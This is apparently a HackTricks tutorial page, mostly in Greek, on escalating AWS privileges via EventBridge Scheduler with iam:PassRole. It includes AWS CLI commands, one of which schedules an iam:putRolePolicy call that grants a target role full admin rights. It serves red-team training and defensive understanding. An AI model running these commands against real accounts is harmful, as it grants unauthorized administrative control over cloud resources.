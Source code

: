 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

Ο EventBridge Scheduler μπορεί να χρησιμοποιηθεί για την κλιμάκωση προνομίων προγραμματίζοντας κλήσεις σε διάφορες υπηρεσίες AWS. Εκμεταλλευόμενοι την ικανότητά του να καλεί υπηρεσίες σε προγραμματισμένη βάση, οι χρήστες με επαρκή δικαιώματα μπορούν να κλιμακώσουν τα προνόμιά τους. Ακολουθούν μερικές από τις βασικές ενέργειες που μπορεί να ενεργοποιήσει ο EventBridge Scheduler χρησιμοποιώντας προτυπωμένους στόχους:

* Lambda: lambda:InvokeFunction - Ενεργοποίηση λειτουργιών Lambda σε προγραμματισμένο χρόνο.
* CodeBuild: codebuild:StartBuild - Έναρξη έργων AWS CodeBuild.
* CodePipeline: codepipeline:StartPipelineExecution - Ενεργοποίηση εκτελέσεων AWS CodePipeline.
* ECS: ecs:RunTask - Εκτέλεση εργασιών ECS.
* EventBridge: events:PutEvents - Τοποθέτηση γεγονότων στο EventBridge.
* Inspector: inspector:StartAssessmentRun - Έναρξη αξιολογήσεων Amazon Inspector.
* Kinesis: kinesis:PutRecord - Τοποθέτηση εγγραφών σε ροές Kinesis.
* Firehose: firehose:PutRecord - Τοποθέτηση εγγραφών σε ροές παράδοσης Firehose.
* SageMaker: sagemaker:StartPipelineExecution - Έναρξη εκτελέσεων SageMaker pipeline.
* SNS: sns:Publish - Δημοσίευση μηνυμάτων σε θέματα SNS.
* SQS: sqs:SendMessage - Αποστολή μηνυμάτων σε ουρές SQS.
* Step Functions: states:StartExecution - Έναρξη εκτελέσεων AWS Step Functions.

Αυτές είναι μόνο μερικές από τις προτυπωμένες ενέργειες που μπορεί να εκτελέσει ο EventBridge Scheduler. Ωστόσο, χρησιμοποιώντας καθολικούς στόχους, μπορούν να ενεργοποιηθούν πολλές άλλες ενέργειες σε υπηρεσίες AWS. Οι καθολικοί στόχοι επιτρέπουν πιο εκτενείς λειτουργίες API πέρα από τη λίστα με τα πρότυπα.

Περισσότερες πληροφορίες για τον EventBridge Scheduler στο:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Οι χρήστες με δικαιώματα `sts:AssumeRole`, `iam:PassRole`, και `scheduler:CreateSchedule or scheduler:UpdateSchedule` μπορούν να κλιμακώσουν τα προνόμιά τους εκμεταλλευόμενοι τον EventBridge Scheduler για να καλέσουν υπηρεσίες χρησιμοποιώντας έναν ρόλο με υψηλότερα προνόμια.

Με αυτά τα δικαιώματα, ένας επιτιθέμενος μπορεί να αναλάβει έναν ρόλο με ανυψωμένα προνόμια και να περάσει αυτόν τον ρόλο στον EventBridge Scheduler κατά τη δημιουργία ή την ενημέρωση ενός προγράμματος. Το πρόγραμμα μπορεί να ρυθμιστεί για να εκτελεί οποιαδήποτε από τις ενέργειες που αναφέρονται προηγουμένως, όπως η ενεργοποίηση λειτουργιών Lambda, η εκκίνηση εργασιών ECS, η ενεργοποίηση εκτελέσεων CodePipeline ή οποιαδήποτε λειτουργία από τις 270 υπηρεσίες AWS που υποστηρίζονται από τον EventBridge Scheduler. Προγραμματίζοντας αυτές τις ενέργειες, ένας επιτιθέμενος θα μπορούσε να καταχραστεί υψηλότερα προνόμια για να εκτελέσει μη εξουσιοδοτημένες λειτουργίες σε υπηρεσίες AWS. \\

Για παράδειγμα, θα μπορούσαν να ρυθμίσουν το πρόγραμμα να ενεργοποιεί μια λειτουργία Lambda, η οποία είναι μια προτυπωμένη ενέργεια:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
Εκτός από τις προτυπωμένες ενέργειες υπηρεσιών, μπορείτε να χρησιμοποιήσετε καθολικούς στόχους στο EventBridge Scheduler για να καλέσετε μια ευρεία γκάμα API λειτουργιών για πολλές υπηρεσίες AWS. Οι καθολικοί στόχοι προσφέρουν ευελιξία για να καλέσετε σχεδόν οποιοδήποτε API. Ένα παράδειγμα μπορεί να είναι η χρήση καθολικών στόχων προσθέτοντας "AdminAccessPolicy", χρησιμοποιώντας έναν ρόλο που έχει πολιτική "putRolePolicy":
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## Αναφορές

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
